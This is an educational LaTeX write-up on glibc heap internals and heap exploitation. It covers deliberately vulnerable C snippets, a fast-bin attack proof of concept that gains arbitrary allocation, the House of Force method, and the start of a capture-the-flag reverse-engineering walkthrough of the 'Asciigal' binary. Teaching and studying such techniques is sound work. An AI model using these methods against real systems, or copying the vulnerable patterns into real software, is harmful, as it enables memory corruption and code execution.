Chunks whose size is smaller than 504 bytes, called \emph{small chunks}, are sorted in \emph{small bins}. There are 62 different small bins, from 16 to 504 bytes\footnote{They are overlapped with fast chunks. To distinguish among them, the glibc algorithm uses a global variable, called \texttt{fast\_bin\_max\_size}, 0 by default. If the chunk size is less than ${min(fast\_bin\_max\_size, 88)}$, it is considered as fast chunk, otherwise it is considered as a different chunk, according to its size.}, 8 bytes apart. Each bin maintains a \textbf{double linked list} of chunks with fixed sizes. Insertion are performed from the \emph{HEAD}, whereas, removals happen from the \emph{TAIL}, with a FIFO policy\footnote{\href{https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/bins_chunks}{https://heap-exploitation.dhavalkapil.com/diving\_into\_glibc\_heap/bins\_chunks}}. When small chunks are freed, they may be coalesced together, before ending up in the \emph{unsorted bin}.
\paragraph{Large bins}
Finally, chunks whose size is greater or equal to 512 bytes, \emph{large chunks}, are sorted in \emph{large bins}. There are 63 large bins: 
\begin{itemize}
    \item 32 bins, with a 64 bytes spacing.
    \item 16 bins, with a 512 bytes spacing.
    \item 8 bins, with a 4096 bytes spacing.
    \item 4 bins, with a 32768 bytes spacing.
    \item 2 bins, with a 262144 bytes spacing.
    \item 1 bins whose size is the left space.
\end{itemize}
In this case, each of them contains chunks within a range of sizes, rather than having fixed ones. To this end, chunks are sorted by increasing sizes, within each \emph{large bin}, hence, insertion and removals can happen at any position. 
\paragraph{Fast bins}
Free chunks with a size between 16 to 88 bytes\footnote{These sizes include metadata as well.} are held by a glibc array, called \texttt{fastbinsY}, Figure \ref{fig:fastbinY}. Each element of the array\footnote{There are 10 elements, with a stride of 8 bytes.} is a \emph{fast bin} that holds as a LIFO \textbf{single linked list} of free chunks with the same size. Among all other bins, they are the fastest in memory allocation and de-allocation. There are two main differences among fast bins and other bins:
\begin{itemize}
    \item They are stored as a single linked list, hence, the \texttt{bk} field is not used.
    \item Two free chunks can be adjacent, without causing any coalescing operation. This can result in a high external fragmentation, however, it increases performances.
\end{itemize}

\begin{figure}[htb]
    \centering
    
\includegraphics[width=\textwidth]{main_arena_fastbinY.pdf}
    \caption{Fast bin representation.}
    \label{fig:fastbinY}
\end{figure}
\paragraph{Top chunk}
The chunk at the top border of an arena, called \emph{top chunk} or \emph{wilderness}, does not belong to any bin and it is used to service user requests when there are no free chunks satisfying the condition. If the \emph{top chunk} size is greater than the required one, it is split into two parts:
\begin{itemize}
    \item User chunk, of requested size.
    \item Remainder chunk, of remaining size.
\end{itemize}
The \emph{reminder chunk} becomes the new \emph{top chunk}.
\paragraph{Last remainder chunk}
It is the chunk obtained from the last split. Sometimes, when exact size chunks are not available, bigger chunks are split in two, without involving the top chunk. One part is returned to the user, whereas the other one becomes the \emph{last reminder chunk}.
\paragraph{Tcache}
A recent versions of glibc\footnote{Glibs 2.26.} has introduced another data structure, called \emph{tcache} or \emph{per-thread cache}. We have already seen how the \emph{per-thread arena} approach is used to support multi-threading. This is a further optimization introduced to manage at a finer granularity lock operations on global resources. The idea is to speed up allocations by caching small chunks for each thread. That way, when a thread requests a chunk, if there is any available within its \emph{tcache},  the allocation happens without waiting for a heap lock. By default, each thread has 64\footnote{It is possible to set how many tcache bins are used, up to 64.} singe linked tcache bins. Each bin contains a maximum of 7 chunks of the same size ranging from 24 to 1032 bytes on 64-bit systems and 12 to 516 bytes on 32-bit systems.
\subsubsection{Heap Allocation}
To better understand how the allocator of glibc works let us consider some examples\footnote{\href{https://heap-exploitation.dhavalkapil.com/attacks/first_fit}{https://heap-exploitation.dhavalkapil.com/attacks/first\_fit}}. We have seen that, upon freeing a non-fast chunk, it ends up in the \texttt{unsorted bin}. Instead, when a new non-fast chunk is required, first it is looked for a chunk of greater or equal size within \texttt{small} or \texttt{large bins}, if they are empty it is checked the \texttt{unsorted bin}. If the size of the available chunk is greater than the required one, it is split into two parts.\newline
\noindent
By looking at code \ref{lst:non-fast-chunk}, this is what happens:
\begin{enumerate}
    \item At line 3 \texttt{a} is freed and the unsorted bin looks like this: \texttt{head -> a -> tail}.
    \item At line 4 an allocation is required. Since the only free chunk is greater than the requested one, it is split into two parts \texttt{a1} and \texttt{a2}. The former is returned to the user, whereas the latter remains in the \texttt{unsorted bin}, whose structure looks like:\newline
    \texttt{head -> a2 -> tail [a1 is returned]}.
\end{enumerate}
\begin{minipage}{\textwidth}
\centering
    \lstset{style=cstyle}
    \begin{lstlisting}[caption={Non-fast chunk allocation and de-allocation.},captionpos=b,label={lst:non-fast-chunk}]
    char *a = malloc(300);    // 0x***010
    char *b = malloc(250);    // 0x***150
    free(a);
    a = malloc(250);          // 0x***010
\end{lstlisting}
\end{minipage}
\noindent
In the code \ref{lst:fast-chunk}, we can observe how the fast chunk allocation and de-allocation process works with a \textbf{LIFO} policy.
\begin{enumerate}
    \item \texttt{a} is freed: \texttt{head -> a -> tail}.
    \item \texttt{b} is freed: \texttt{head -> b -> a -> tail}.
    \item \texttt{c} is freed: \texttt{head -> c ->  b -> a -> tail}.
    \item \texttt{d} is freed: \texttt{head -> d -> c ->  b -> a -> tail}.
    \item allocation required: \texttt{head -> c ->  b -> a -> tail [d is returned]}.
    \item allocation required: \texttt{head ->  b -> a -> tail [c is returned]}.
    \item allocation required: \texttt{head -> a -> tail [b is returned]}.
    \item allocation required: \texttt{head -> tail [a is returned]}.
\end{enumerate}
\begin{minipage}{\textwidth}
\centering
    \lstset{style=cstyle}
    \begin{lstlisting}[caption={Fast chunk allocation and de-allocation.},captionpos=b,label={lst:fast-chunk}]
    char *a = malloc(20);     // 0xe4b010
    char *b = malloc(20);     // 0xe4b030
    char *c = malloc(20);     // 0xe4b050
    char *d = malloc(20);     // 0xe4b070
    free(a);
    free(b);
    free(c);
    free(d);
    a = malloc(20);           // 0xe4b070
    b = malloc(20);           // 0xe4b050
    c = malloc(20);           // 0xe4b030
    d = malloc(20);           // 0xe4b010
\end{lstlisting}
\end{minipage}
\noindent
From what said up to now, it is possible to understand that the \emph{heap} suffers from external fragmentation. This becomes a problem when a big number of chunks has been freed and it is required the allocation of a huge chunk. To deal with it, the algorithm merges adjacent free chunks to build a bigger one. This process is called \emph{coalescing}.

\section{Heap Exploitation}
The glibc algorithm provides a lot of functionality. From a hacker perspective we can say that there is a large attack surface. A bad usage of such these power generates unsafe code. From a high level perspective, it is possible to divide heap exploitation techniques into three macro categories\footnote{\href{https://guyinatuxedo.github.io/31-unsortedbin_attack/unsorted_explanation/index.html}{https://guyinatuxedo.github.io/31-unsortedbin\_attack/unsorted\_explanation/index.html}}:
\begin{itemize}
    \item \texttt{Vulnerabilities}: basically they are bugs which can be exploited.
    \item \texttt{Bin Attacks}: the goal is exploit vulnerabilities to modify chunks metadata in order to trick the glibc algorithm and achieve a given task.
    \item \texttt{Houses}: can be seen as a more complex type of attach which exploits one or several bin attacks and bugs.
\end{itemize}
\clearpage
\subsection{Vulnerabilities}
\subsubsection{Use After Free}
As the name suggests, \emph{UAF} come into play when, upon freeing a chunk, the associated pointer is not deleted and it is used later on to access that portion of memory. Code \ref{lst:use-after-free} shows an example.\newline
\begin{minipage}{\textwidth}
\centering
    \lstset{style=cstyle}
    \begin{lstlisting}[caption={Use After Free vulnerable code.},captionpos=b,label={lst:use-after-free}]
    char *a = malloc(20);
    free(a);
    //Some operations are done
    //...
    if(*a == 'whatever'){
        //do something
    }
\end{lstlisting}
\end{minipage}
\noindent
The reason why this code is dangerous is that, once a chunk is allocated, it is reasonable to assume that can be arbitrary written. However, once it is freed, it will be managed by the allocator which will use some metadata. Keeping the pointer after the chunk has been freed means that an attacker can carefully overwrite those metadata with the goal of exploiting the bins management.
\subsubsection{Double Free}
This vulnerability can be seen as a particular case of a \emph{UAF}. Freeing a resource several time lead to a corruption of data structures, which can be exploited by an attacker to either get memory leaks or to craft chunks. The glibc algorithm tries to mitigate this behaviour using a very simple procedures. It checks whether or not the address of the chunk to be freed is equal to the one of the last freed chunk. Bypassing this security mechanism is trivial, as shown in code \ref{lst:double-free}.\newline
\begin{minipage}{\textwidth}
\centering
    \lstset{style=cstyle}
    \begin{lstlisting}[caption={Double Free vulnerable code.},captionpos=b,label={lst:double-free}]
    char* a = malloc(10);   // 0xa04010
    char* b = malloc(10);   // 0xa04030
    char* c = malloc(10);   // 0xa04050
    
    free(a);
    free(b);                // Bypassing the check
    free(a);                // Double Free!
    
    char* d = malloc(10);   // 0xa04010
\end{lstlisting}
\end{minipage}
\noindent
This is what happens:
\begin{enumerate}
    \item \texttt{a} is freed: \texttt{head -> a -> tail}.
    \item \texttt{b} is freed: \texttt{head -> b -> a -> tail}.
    \item \texttt{a} is freed: \texttt{head -> a ->  b -> a -> tail}. The linked list structure is corrupted since the same node is inserted twice.
    \item allocation required: \texttt{head ->  b -> a -> tail [a is returned]}. Once this chunk is allocated, the attacker is able to read and write within it, that is, reading and writing within a chunk which is also considered to be free by the allocator.
\end{enumerate}
\subsubsection{Heap Overflow}
When an unsafe function is used to write within a heap location, that is, no check is performed, a \emph{Heap Overflow} may arise. Basically, it works exactly as a stack overflow, the only difference is related to metadata which can be overwritten. Code \ref{lst:heap-overflow} shows an example.\newline
\begin{minipage}{\textwidth}
\centering
    \lstset{style=cstyle}
    \begin{lstlisting}[caption={Double Free vulnerable code.},captionpos=b,label={lst:heap-overflow}]
    char* a = malloc(30);
    scanf('%s', &a);
\end{lstlisting}
\end{minipage}

\subsection{Bin Attacks}
\subsubsection{Fast Bin Attack}
This attack allow to better understand why aforementioned vulnerabilities are dangerous. The basic idea of a \emph{Fast Bin Attack} is to exploit the fast bin management in order to allocate an arbitrary memory location as a chunk. This allow an attacker to read and/or write wherever *he wants. Recall: the first 8 byte of payload of a fast bin are used as pointer to the next node of the list.\newline
\noindent
What if we change this byte with the address of another memory location?
\newline
\noindent
Well, arbitrary write and/or read is obtained. Code \ref{lst:fast-bin-attack} shows an example.
This is what happens:
\begin{enumerate}
    \item \texttt{a} is freed: \texttt{head -> a -> tail}.
    \item \texttt{b} is freed: \texttt{head -> b -> a -> tail}.
    \item \texttt{c} is freed: \texttt{head -> c ->  b -> a -> tail}.
    \item the fd pointer of \texttt{b} is overwritten with the address of the stack variable:\newline\texttt{head -> c ->  b -> stack\_var -> tail}.
    \item allocation required: \newline\texttt{head ->  b -> stack\_var -> tail [c is returned]}.
    \item allocation required: \texttt{head -> stack\_var -> tail [b is returned]}.
    \item allocation required: \texttt{head -> tail [stack\_var is returned]}.
\end{enumerate}
\begin{minipage}{\textwidth}
\centering
    \lstset{style=cstyle}
    \begin{lstlisting}[caption={Fast bin attack example.},captionpos=b,label={lst:fast-bin-attack}]
    char* a = malloc(30);       //0x55bdd334b670 
    char* b = malloc(30);       //0x55bdd334b6b0
    char* c = malloc(30);       //0x55bdd334b6f0
    
    free(a);
    free(b);
    free(c);
    
    int stack_var = 0x20;       //0x7ffc8e3e066c
    *a = (char *)&stack_var;    //Overwriting the fd with a stack address
    
    char* d = malloc(30);       //0x55bdd334b6f0 
    char* e = malloc(30);       //0x55bdd334b6b0
    char* f = malloc(30);       //0x7ffc8e3e066c
\end{lstlisting}
\end{minipage}
\noindent
It is worth to mention that the same thing can be done to exploit the \emph{tcache} data structure. The only difference is that, a \emph{TCache Poisoning} does not requires to deal with fast chunks, hence, they can be of different sizes\footnote{\href{https://github.com/shellphish/how2heap/blob/master/glibc_2.31/tcache_poisoning.c}{https://github.com/shellphish/how2heap/blob/master/glibc\_2.31/tcache\_poisoning.c}}.
\subsubsection{Unsorted Bin Attack}
From a conceptual perspective, this attack works pretty similar to the previous one, however, due to the different nature of the two data structures, an \emph{Unsorted Bin Attack} can be used to achieve different goals. Recall: the unsorted bin is a \textbf{FIFO} double linked list. This means that insertions are made from the tail, whereas removals from the head\footnote{The list is scanned from the head, if the node does not match the requirement it is added to the corresponding bin, hence the following one becomes the new head.}. Said that, there are two main things to be pointed out:
\begin{itemize}
    \item When an unsorted bin is allocated, we have to update the reference in the bins array, so that it points to the new head, that is, the following element of the list. To this end we need to write the address of the following chunk at the memory location pointed by the \texttt{bk}\footnote{The actual address is bk plus a given offset, 0x8 if dealing with a 32-bit machine, 0x10 for a 64-bit one.} field of the head. If we modify this field, we are actually writing a pointer, that is a huge number, within an arbitrary memory location. 
    \item The bins array is located within the \texttt{.data} segment of libc. That is, in the \texttt{bk} field we have a leak of libc address which can be used to compute the base address of libc or any other address. This allow to bypass the \textbf{ASLR}\footnote{Address Space Layout Randomization is a kernel level mitigation which randomize the base address of sections. This means that, at each execution, the location of sections is different.} mitigation. The randomization is done on blocks of 4KB, hence, last 2 bytes and a nibble are not randomized and are used to address memory locations within the block. Leaking a libc address means being able to compute, with a relative offset, each memory location within the randomized block. A huge variety of more complex attacks requires a libc leak as inner step.
\end{itemize}
\subsection{Houses}
\label{house-of-force}
\subsubsection{House of Force}
The basic idea is to exploit the top chunk size in order to allocate a new chunk into an arbitrary memory location. When the allocation of a huge chunk is required, if no fitting chunk is available, the allocator checks the top chunk size to understand whether or not there is enough free space:
\begin{itemize}
    \item if no, a \texttt{syscall} is used to allocate new memory, trying to satisfy the request,
    \item otherwise, the top chunk is split and the new base address of the wilderness is evaluated by summing the old one with the required size.
\end{itemize}
This procedure has two problems.   First of all, it trusts the value of the top chunk size, assuming that no one has corrupted it. Then, it uses a simple summation to update the base address.\newline
What if we exploit a heap overflow to overwrite the \texttt{size} field?
\newline
Let us assume that we are able to overwrite it with a huge number, ideally \texttt{0xffffffffffff}, and that we want to allocate a writable memory location at a \texttt{target} address. If we ask the allocation of a chunk whose size is:
\begin{equation*}
    malloc\_size = target\_addr - top\_chunk\_addr - offset\footnote{The offset value is used to compensate additional metadata which are added by the allocator.}
\end{equation*}
The new top chunk address is evaluated as follows:
\begin{equation*}
\begin{split}
    top\_chunk\_addr &= top\_chunk\_addr + malloc\_size\\
    &= \cancel{top\_chunk\_addr} + target\_addr - \cancel{top\_chunk\_addr} - offset\\
    &= target\_addr - offset
\end{split}
\end{equation*}
At this point, if the allocation of another of a chunk is required, the top chunk is shifted again and the \texttt{malloc} returns a pointer to the \texttt{target} address. That is, we got a writable chunk at an arbitrary memory location.\newline
This attack is a bit harder than previous ones and some requirement must be satisfied:
\begin{itemize}
    \item The top chunk size must be overwritten, to this end we can either rely on a heap overflow or, we could try to use an \emph{Unsorted Bin Attack} to write a huge number in the \texttt{size}. This second solution may be discarded if the value which is written is less than the \texttt{malloc\_size} one. 
    \item A leak of the heap and of the address of the target (e.g. libc, stack) are  required in order to compute exactly the \texttt{malloc\_size}.
    \item During the allocation, some metadata are written, this means that memory locations near the target address may be corrupted, causing an abort of the executable.
    \item Finally, it is mandatory to be able to perform a \texttt{malloc} of arbitrary size.
\end{itemize}
A practical example will be analyzed in the next chapter.
\section{Asciigal Walk-through}
In this chapter a write up for the \emph{Asciigal} challenge is presented. Generally speaking, there are some steps to be done when dealing with a binary \emph{capture the flag} challenge.
\begin{enumerate}
    \item \textbf{Information Gathering}: it is crucial to understand the type of executable you are dealing with, mitigation that are implemented and which libraries are used.
    \item \textbf{Reverse Engineering}: you want to figure out the behaviour of the executable, to this end you need perform a \emph{static analysis}, disassembling or decompiling the binary and a \emph{dynamic analysis} running it with the help of a debugger\footnote{https://www.gnu.org/software/gdb/}. These operations are usually interleaved, for a better result.
    \item \textbf{Plan the Exploit}: think a strategy to get all you need to hijack the control flow.
    \item \textbf{Execute the Attack}: get arbitrary code execution and capture the flag.
\end{enumerate}
Several iterations over these steps may be required before successfully exploit the binary. The source code, the binary and the exploit can be found here.\footnote{\href{https://github.com/cris96spa/CTF/tree/main/heap_exploitation/asciigal}{https://github.com/cris96spa/CTF/tree/main/heap\_exploitation/asciigal}}\clearpage
\subsection{Information gathering}
There are several tools which can be used in this phase.
Code \ref{lst:file-command} shows the execution of the \texttt{file} utility over the binary. There are three main things to be noticed:
\begin{itemize}
    \item It is a 64-bit ELF.
    \item It is dynamically linked: that is, libc is used, so we can try to exploit it.
    \item It is not-striped: this is a very nice news. A striped binary does not have any information about the original name of it symbols. In other words, when it is decompiled, all procedures names are set to random values. This makes the reverse engineering part more time consuming.
\end{itemize}
\begin{minipage}{\textwidth}
\centering
\lstset{style=consolestyle}
\begin{lstlisting}[caption={File command on asciigal executable.},captionpos=b,label={lst:file-command}]
xman@ubuntu:/$ file asciigal
asciigal: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0101168aff2ec283053889251823a513e41a450e, for GNU/Linux 3.2.0, not stripped
\end{lstlisting}
\end{minipage}
To determine which mitigations are implemented, instead, we can run the \texttt{checksec} command, as shown in code \ref{lst:checksec-command}. It is possible to conclude that:
\begin{itemize}
    \item \texttt{Partial RELRO}: we can not exploit an overflow from the \texttt{.bss} to overwrite the \texttt{.got} since they are not placed one right after the other. Not a big deal, with an arbitrary write we can simply bypass it.
    \item \texttt{Stack Canary}: a pseudo-random value is inserted between the local variables and the saved \texttt{RBP}. This makes impossible to overwrite the saved \texttt{RIP} without crashing when exploiting a buffer overflow on the stack. To bypass it, either we need a memory leak, a string format vulnerability or we can rely on other techniques to hijack the control flow.
    \item \texttt{Not Executable Stack}: the stack is flagged as read-only, hence, no shellcode can be placed there.
    \item \texttt{PIE enambled}: the \texttt{.text} section is randomized at each execution. This means that, if we need an address of that portion, we need to rely on a memory leak.
\end{itemize}
\begin{minipage}{\textwidth}
\centering
\lstset{style=consolestyle}
\begin{lstlisting}[caption={Checksec command on asciigal executable.},captionpos=b,label={lst:checksec-command}]
xman@ubuntu:/$ checksec ./asciigal
[*] '/asciigal'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
\end{lstlisting}
\end{minipage}
\subsection{Reverse Engineering}
\label{functionalities}
Our knowledge about \emph{asciigal} has been increased, so, we can do a step forward. Decompiling the binary with \texttt{Ghidra}\footnote{https://ghidra-sre.org/} it is possible to look at an approximation of the source code.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=consolestyle}
\begin{lstlisting}[caption={Main menu of asciigal executable.},captionpos=b,label={lst:main-menu}]
xman@ubuntu:/$ ./asciigal
**************
0. New Art
1. Print Art
2. Delete Art
3. Edit Art
4. Exit
> 
\end{lstlisting}
\end{minipage}
Code \ref{lst:main-menu} allow us to easily understand which are main functionalities of the binary.\newline
Code \ref{lst:main-source} shows the decompiled version of the \texttt{main}. It seems quite awful, however, a keen eye sees that it is a \texttt{switch-case} implementation. This is a typical scenario in which, proceeding in parallel with a static and a dynamic analysis helps a lot.
This is a common menu, for a heap exploitation challenge. It allow you to create a new article, it is easy to guess that \texttt{malloc} will be used. Then you can print articles which have been created, edit them, that is, you can write whatever you want within a chunk, once it is allocated. Finally you can delete a chunk, in other words,  \texttt{free} is involved.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=cstyle}
\begin{lstlisting}[caption={Main routine of asciigal source code.},captionpos=b,label={lst:main-source}]
    void main(void)
    {
    	long input;
    	...
    	init_art();
    	while( true ) {
    		while( true ) {
    			while( true ) {
    				menu();
    				printf("> ");
    				input = get_int();
    				if (input != 3) break;
    				list_and_edit();
    			}
    			if (3 < input) goto LAB_00101a0f;
    			if (input != 2) break;
    			list_and_delete();
    		}
    		if (2 < input) break;
    		if (input == 0) {
    			new_art();
    		}
    		else {
    			if (input != 1) break;
    			list_and_print();
    		}
    	}
    	exit(0);
    }
\end{lstlisting}
\end{minipage}
\subsubsection{New Article}
Let us start the exploration from the \texttt{new\_article} function, code \ref{lst:new-article-source}.\newline
\noindent
\begin{minipage}{\textwidth}
\centering
\lstset{style=consolestyle}
\begin{lstlisting}[caption={New article menu of asciigal executable.},captionpos=b,label={lst:new-article-menu}]
...
> 0
name> [name of the article]
art sz> [arbitrary article size]
[payload of the article]
\end{lstlisting}
\end{minipage}
\begin{minipage}{\textwidth}
\centering
\lstset{style=cstyle}
\begin{lstlisting}[caption={New\_article routine of asciigal source code.},captionpos=b,label={lst:new-article-source}]
    void new_article(void)
	{
		char *art_name_ptr;
		size_t size;
		char *art_payload;
		long result;
		
		art_name_ptr = (char *)malloc(100);~\label{line:art-name-chunk}~
		printf("name> ");
		get_name(art_name_ptr,100);~\label{line:art-name-read}~
		printf("art sz> ");
		size = get_int();
		/* Malloc of arbitrary length */
		art_payload = (char *)malloc(size);~\label{line:art-payload-chunk}~
		read(0,art_payload,size);
		result = add_article(art_name_ptr,(int)size,art_payload,'\x01');~\label{line:add-article}~
		/* Returns 0 if more than 10 articles have been allocated */
		if ((int)result == 0) {
			free(art_name_ptr);
			free(art_payload);
		}
		return;
	}
\end{lstlisting}
\end{minipage}
At line \ref{line:art-name-chunk} we can notice that a chunk of 100 bytes\footnote{Actually the chunk will be of 100 bytes for the payload + 8 bytes of metadata + 4 bytes due to alignment purposes. The overall size is 112 bytes.} is always created to hold the article name, which is then read at line \ref{line:art-name-read}. At line \ref{line:art-payload-chunk} a chunk of arbitrary size is allocated to hold the payload of the article. Then at line \ref{line:add-article} it is called the routine \texttt{add\_article}, whose source is shown in code \ref{lst:add-article-source}.
\begin{minipage}{\textwidth}
\centering
\lstset{style=cstyle}
\begin{lstlisting}[caption={Add\_article routine of asciigal source code.},captionpos=b,label={lst:add-article-source}]
    long add_article(char *name_ptr,int size,char *payload_ptr,uint8_t flag)
    {
    	article *article_ptr;
    	int index;
    	index = 0;
    	/* Find the first free index */
    	while( true ) {~\label{line:find-free-index}~
    		if (9 < index) {
    			return 0;
    		}
    		if (pics[index] == (article *)0x0) break;
    		index = index + 1;
    	}
    	/* Allocate a chunk to hold the article */
    	article_ptr = (article *)malloc(0x20);~\label{line:art-chunk}~
    	/* Set article fields */
    	pics[index] = article_ptr;
    	pics[index]->art_name = name_ptr;
    	*(int *)&pics[index]->art_size = size;
    	pics[index]->art_payload = payload_ptr;
    	pics[index]->is_valid = flag;
    	return 1;
    }
\end{lstlisting}
\end{minipage}
At line \ref{line:find-free-index} the first free index of a global structure is found. Hence we can guess that there is a global structure, of 10 elements, which holds the pointer of allocated articles. Then, looking from line \ref{line:art-chunk} we can better understand the structure of each single article. It is a 32 bytes struct with 4 fields, code \ref{lst:article-stuct}:
\begin{itemize}
    \item \texttt{art\_name}: a pointer to the chunk which holds the name.
    \item \texttt{art\_size}: the size of the chunk which holds the payload.
    \item \texttt{art\_payload}: a pointer to the chunk that holds the payload.
    \item \texttt{is\_valid}: a validity flag.
\end{itemize}
\begin{minipage}{\textwidth}
\centering
\lstset{style=cstyle}
\begin{lstlisting}[caption={Definition of the struct of an article.},captionpos=b,label={lst:article-stuct}]
    typedef struct{
        char *art_name;
        int size;
        char *art_payload;
        uint8_t is_valid;
    } article;
\end{lstlisting}
\end{minipage}
\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{article_management_structure.pdf}
    \caption{Pictorial representation of articles management.}
    \label{fig:article_management_structure}
\end{figure}
Figure \ref{fig:article_management_structure} allow to visualize what happens from a data structure point of view.
To sum up, the analysis of the \texttt{new\_article} procedure yields some useful results. One of the most promising is that, each time the creation of a new article is required, three different chunks are allocated and the one that holds the article structure is quite interesting. It contains some addresses which points to the heap. This means that we could try to exploit it to get a leak a heap address.
\clearpage
\subsubsection{Print Article}
The \texttt{print\_article} function, code \ref{lst:print-article-source} is not very interesting. It simply write on the standard output the content of an article. We can use it to read memory location, but nothing special to be said.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=cstyle}
\begin{lstlisting}[caption={Print\_article routine of asciigal source code.},captionpos=b,label={lst:print-article-source}]
    void print_article(int input)
    {
    	if (pics[input] == (article *)0x0) {
    		puts("This space was intentionally left blank.");
    	}
    	else {
    		printf("\t**\t [%s] \t**\n",pics[input]->art_name);
    		/* Writes on stdout the content of the article with its size
    												*/
    		write(1,pics[input]->art_payload,(long)*(int *)&pics[input]->art_size);
    		puts("\n");
    	}
    	return;
    }
\end{lstlisting}
\end{minipage}
\subsubsection{Delete Article}
This routine allow us to \texttt{free} chunks, as shown in code \ref{lst:delete-article-source}. There are two things to be highlighted:
\begin{itemize}
    \item Chunks are freeed in the same order in which they are allocated, from line \ref{line:free-chunks}, and this is interesting especially when dealing with fast bins or chunks within the tcache, since they are managed with a \textbf{LIFO} policy. We are going to play with that.
    \item At line \ref{line:zero-out-pointer} we can notice that the reference pointer is zeroed out, after freeing the chunk. In other words, we can not rely on use after free or double free vulnerabilities. Up to now, we still need to find a vulnerability which can be exploited.
\end{itemize}
\begin{minipage}{\textwidth}
\centering
\lstset{style=cstyle}
\begin{lstlisting}[caption={Delete\_article routine of asciigal source code.},captionpos=b,label={lst:delete-article-source}]
    void delete_art(int index)
	{
		if (pics[index] == (article *)0x0) {
			puts("This space is blank.");
		}
		else {
			printf("%s was deleted\n",pics[index]->art_name);
			if (pics[index]->is_valid != '\0') {
				/* Freeing the chunk which contains the article name */
				free(pics[index]->art_name);~\label{line:free-chunks}~
				/* Freeing the chunk which contains the payload */
				free(pics[index]->art_payload);
			}
			/* Freeing the chunk which holds the article structure */
			free(pics[index]);
			pics[index] = (article *)0x0;~\label{line:zero-out-pointer}~
		}
		return;
	}
\end{lstlisting}
\end{minipage}
\subsubsection{Edit Article}
